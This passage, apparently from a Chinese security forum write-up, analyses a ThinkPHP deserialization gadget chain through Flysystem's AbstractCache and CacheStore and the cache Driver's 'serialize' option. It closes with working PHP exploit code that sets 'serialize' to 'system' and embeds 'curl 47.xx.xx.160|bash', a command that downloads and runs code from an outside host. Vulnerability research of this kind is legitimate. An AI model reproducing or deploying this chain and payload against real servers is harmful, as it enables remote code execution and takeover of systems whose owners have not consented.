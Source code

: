 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-9cb26cff6ee5f4f651f751ca15c74e12f579ebfe.png)

这里发现`options`可控，如果我们将其赋值为`system`，那么`return`的就是我们的命令执行函数

`$data`往上跟是我们`set`里的`$value`再往上是`save`中的`$contents` ，`$contents`我们一开始也是跟过的：

```php
getForStorage() -> cleanContents() -> $contents
```

这里如果是数组的话就会进行一个

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-066560b2752cdc80fca8b732ece4824c18da2a27.png)

传空值就好了，`json_encode`中还有一个属性，`complete` 我们可以控制它来执行想要执行的命令

这里还有一个点，怎么执行`json`格式的命令，写文章的师傅提到的是这种格式，在windows下没有成功

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-f462524bca8db5e69d1dc0313950bf11de11c5b3.png)

在linux下成功了

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-43dd63ca3ee0c18f13c2fd09dd1b85d67b483f71.png)

应该是系统问题，这里是利用的反引号执行

exp

```php
<?php

namespace League\Flysystem\Cached\Storage{
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "curl 47.xx.xx.160|bash";
    }
}

namespace think\filesystem{
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache
    {
        protected $key = "1";
        protected $store;

        public function __construct($store="")
        {
            $this->store = $store;
        }
    }
}

namespace think\cache{
    abstract class Driver
    {
        protected $options = [
            'expire' => 0,
            'cache_subdir' => true,
            'prefix' => '',
            'path' => '',
            'hash_type' => 'md5',
            'data_compress' => false,
            'tag_prefix' => 'tag:',
            'serialize' => ['system'],
        ];
    }
}
```